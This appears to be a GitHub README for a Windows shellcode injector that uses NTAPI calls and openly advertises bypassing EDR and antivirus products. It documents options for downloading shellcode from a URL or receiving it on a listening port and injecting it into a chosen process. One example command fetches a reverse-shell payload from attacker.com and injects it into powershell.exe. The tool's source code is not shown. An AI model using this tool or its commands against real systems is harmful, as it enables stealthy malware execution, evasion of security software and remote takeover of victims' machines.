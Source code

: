 # Windows NTAPI shellcode injector
Inject shellcode from memory to process using Windows NTAPI for bypassing EDRs and Antiviruses
- Download shellcode from URL
- Listen and wait for shellcode

## Usage

```shell
Usage:
        Injector.exe -u <URL>
        Injector.exe -p <PID/Process Name> -u <URL>
        Injector.exe -p <PID/Process Name> -l <LISTEN_PORT>
        Injector.exe -h
Options:
        -h       Show this menu.
        -u       URL to donwload shellcode from (Not listen mode).
        -p       PID/Process name to be injected (Optional).
        -l       Listen mode port (Not download mode).
```

## Examples

Download and inject to powershell.exe
```shell
injector.exe -u http://attacker.com/reverse_shell.bin -p powershell.exe
```

Wait for connection on port 8080, receive shellcode and inject to owned notepad.exe
```shell
injector.exe -l 8080
```

 
